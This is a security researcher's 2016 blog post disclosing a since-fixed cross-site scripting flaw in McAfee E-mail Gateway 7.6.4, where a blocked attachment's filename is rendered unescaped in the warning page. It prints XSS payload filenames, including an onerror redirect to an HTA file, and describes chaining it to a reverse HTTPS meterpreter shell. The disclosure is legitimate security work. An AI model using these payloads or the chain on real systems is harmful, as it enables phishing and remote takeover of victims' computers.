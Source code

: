 ```yaml
---
id: 380
title: How a spamfilter can help you to drop a shell
date: 2016-04-26T16:13:00+01:00
author: wesley
layout: post
permalink: /2016/04/how-a-spamfilter-can-help-you-phish/
---
```

A while ago i discovered a cross-site scripting vulnerability (XSS) in the McAfee E-mail Gateway (MEG) 7.6.4. I reported this vulnerability to McAfee, they fixed it within a few months. The security advisory can be found over [here](https://kc.mcafee.com/corporate/index?page=content&id=SB10153). MEG is an application that can be used to filter out malicious attachments from e-mails, however due to the vulnerability an attacker is able to abuse this functionality to drop a malicious file.

The McAfee E-mail Gateway is replacing a malicious file with a warning HTML-file (1_warning.html). I saw that this HTML-file is displaying the filename of the replaced malicious file (e.g. malicious.xlsx). This made me curious, I decided to check whether it was possible to use this filename to perform a cross-site scripting attack because it was used within HTML-context.

In order to check whether the XSS was present, i created a malicious Excel document. The file needs to be malicious in order to be replaced by the McAfee E-mail Gateway. The file was named &#8220;**file<IMG SRC=x onerror=&#8221;alert(&#8216;XSS&#8217;)&#8221;>jem.xls**&#8220;. I e-mailed this file to a e-mailbox that was protected by McAfee E-mail Gateway. When opening the warning HTML-file, the following behavior became clear:

<!--more-->

[<img class="alignnone size-full wp-image-381" src="https://forsec.nl/wp-content/uploads/2016/04/webgatewayxss.jpg" alt="webgatewayxss" width="584" height="432" />](https://forsec.nl/wp-content/uploads/2016/04/webgatewayxss.jpg)

Together with [@rikvduijn](http://www.twitter.com/rikvduijn) i decided to abuse this issue further in order to pop a shell on a target , with some user interaction. The XSS attack can be used to redirect a victim to a malicious website. We decided to use HTA-files, these files can be generated using the awesome [Unicorn](https://github.com/trustedsec/unicorn/blob/master/unicorn.py) script. By performing a document.location on the victims computer, pointed to the HTA-file, our victim should get a popup with the question to open the HTA-file.

After trying, we achieved the redirect with the following filename (replace 99,99,99… with charcodes for URL):  
<pre>file<IMG SRC=x onerror=document.location(String.fromCharCode(99,99,99,99,99,99,99,99,99,99,99,99,99,99))>jem.xls</pre>
The filename was changed and the document was send again to the victim, and the popup appeared!

[<img class="alignnone size-full wp-image-382" src="https://forsec.nl/wp-content/uploads/2016/04/htapopup.png" alt="htapopup" width="434" height="339" />](https://forsec.nl/wp-content/uploads/2016/04/htapopup.png)

When the victim opens the file, his computer runs a reverse https meterpreter backdoor. Thank you e-mail filter :-).

&nbsp;